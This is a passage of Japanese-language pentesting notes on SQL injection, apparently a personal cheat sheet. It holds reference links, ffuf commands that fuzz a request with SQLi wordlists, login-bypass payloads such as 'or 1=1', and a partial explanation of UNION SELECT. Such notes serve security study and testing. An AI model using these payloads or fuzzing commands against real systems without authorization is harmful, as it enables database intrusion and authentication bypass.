 ### ### 参考サイト
[https://book.hacktricks.xyz/pentesting-web/sql-injection](https://book.hacktricks.xyz/pentesting-web/sql-injection)
[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#dbms-identification](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#dbms-identification)
[https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

---
## ## SQLiの列挙
- WordListを使用した列挙
```sh
ffuf -w /usr/share/SecLists/Fuzzing/SQLi/Generic-SQLi.txt -request-proto http -request request.txt -fs 1420

# Proxyを通す場合
ffuf -w /usr/share/SecLists/Fuzzing/SQLi/Generic-SQLi.txt -request-proto http -request request.txt -fs 1420 -replay-proxy http://127.0.0.1:8080/
```
- 他のWordLists
	- /opt/work/WordLists/wfuzz/wordlist/Injections/SQL.txt
	- /opt/work/WordLists/SecLists-master/Fuzzing/SQLi/Generic-SQLi.txt
	- /opt/work/WordLists/PayloadsAllTheThings/SQL\ Injection/Intruder/

---
## ## SQLi Authentication Bypass
基本的にはユーザが入力したユーザ名とパスワードをDBの値と比較するため、Where句とAND演算で構成されている。

- payload
```sh
# basic
select * from users where name = 'tom' or 1=1;

# 上記でうまくいかない場合
select * from users where name = 'tom' or 1=1 LIMIT 1;#
	プログラミング言語によって単一のレコードでないと失敗する場合がある。
	1=1の場合すべてのレコードが返されるため失敗する可能性がある。
```

---
## ## UnionSelect
- Union Selectの基本
	Union Selectは元のクエリに足してUnionSelectで追加した値を返す。

- Union Selectの要件は以下の二つ
	- 元のクエリと数の列を返す必要がある。
		元が`SELECT a,b FROM`だった場合、`SELECT a,b FROM * UNION SELECT c,b FROM Table2となる。
	- 各列のデータ型は、ここのクエリ間で互換性がある必要がある。

